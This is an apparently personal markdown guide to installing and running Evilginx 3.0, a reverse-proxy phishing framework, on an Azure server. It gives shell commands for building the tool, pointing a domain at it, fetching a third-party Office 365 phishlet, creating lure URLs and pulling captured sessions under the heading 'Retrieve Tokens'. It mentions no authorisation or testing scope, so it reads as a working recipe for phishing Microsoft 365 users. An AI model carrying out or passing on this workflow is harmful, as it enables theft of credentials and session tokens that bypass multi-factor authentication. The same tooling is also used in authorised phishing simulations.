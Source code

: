 # Evilginx 3.0 install notes - Jackson Giordano
Most notes from this are derived from this youtube video: https://www.youtube.com/watch?v=r4Y53s6P51k

And alot of notes from this website, although it could be blocked from certain networks due to its security so I would not access it personally.
    https://evilginx.com/ 


## Setting up server
 1. Through Azure setup an Linux server
     - Ubuntu Version 22.04 / Kali.
     - setup ssh into PuTTY from computer
 2. Setup up Domain name
     - Get Domain setup, cannot be subdomain.
     - A record: @ [IPADDRESS of server]
     - CNAME: * [Previous Domain]
## Open Terminal and log into server
```shell
    ssh root@[ENTERIPADDRESSHERE]

    apt update
 
    apt upgrade

    apt install golang

    git clone https://github.com/kgretzky/evilginx2
    
    cd evilginx2

    go build

    ./evilginx2
    
    exit
```

## Adding Config
```shell
cd ../.evilginx2
nano config.json
```

    
- replace domain with our domain for phishing
- replace ipv4 with the IP from azure server

## Network Settings
1. Open 443 on iptables
2. in the vm nsg open up 443, 80, and 53 inbound for TCP and UDP
---
## Create Phishlet
```shell
cd phishlets
    
wget https://raw.githubusercontent.com/An0nUD4Y/Evilginx2-Phishlets/refs/heads/master/o365.yaml

nano o365.yaml
```
    
- Replace {hostname} sections with your domain

 
## Deploy Phishlet
```shell
    phishlets hostname o365 {DOMAIN} #Enter phishing domain here
    
    phishlets enable o365
```

## Retrieve Lure
```shell
lures create o365

lures get-url {lure index} #Starts at 0
```
## Retrieve Tokens
```shell
sessions

sessions {session number} #desired session based on information above
```
# That should be it!!!
